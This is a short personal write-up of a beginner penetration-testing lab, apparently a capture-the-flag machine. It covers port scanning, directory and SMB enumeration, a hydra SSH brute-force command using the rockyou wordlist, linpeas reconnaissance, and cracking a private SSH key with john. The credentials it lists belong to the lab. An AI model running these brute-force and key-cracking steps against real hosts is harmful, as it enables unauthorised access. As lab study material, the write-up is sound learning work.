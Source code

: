 # Basic pentest

IP: `10.10.165.236`

## Open ports
- 22 
- 80 - Apache/2.4.18 (Ubuntu)
- 139
- 445 
- 8009
- 8080 - Apache Tomcat/9.0.7

## Findings
use dirbuster
- found: `/development`

## In /development
- note: for J from K / easy password
- note: K - strut staff 2.5.12 REST? Apache struts?
- note: K - configured SMB
- note:J - deployed Apache

## Samba
for samba use enum4linux

found:
- `jan`
- `kay`

## SSH enumaration
use hydra for ssh enum, with rockyou dictionary:
`hydra -l jan -P /home/ryusei/Tools/basic_pen_tools/wordlists/rockyou.txt ssh://10.10.165.236`

found:
- credentials: ID:`jan` PW:`armando` 

## search for clues
scp linpeas
chmod linpeas, run it

found:
- 127.0.0.1:8005 loopback
- /home/kay/.ssh/id_rsa - password protected

download it, give it to john:
- run ssh2john fir correct format
- run john hash --dictionary=...rockyou.txt 
 -> password hash not ... -> John version 1.8.0 -> update to 1.9.x

found:
- password `beeswax`

## SSH
ssh -i id_rsa kay@ip

ls -> find backup file
found:
- `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`
